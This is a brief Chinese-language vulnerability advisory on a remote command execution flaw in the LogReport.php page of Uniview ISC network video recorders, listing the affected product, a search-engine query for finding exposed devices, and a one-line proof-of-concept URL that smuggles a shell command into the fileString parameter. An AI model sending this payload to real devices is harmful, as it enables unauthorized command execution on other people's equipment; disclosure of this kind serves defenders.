

# 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>浙江宇视科技 网络视频录像机 ISC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="uniview-ISC"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```




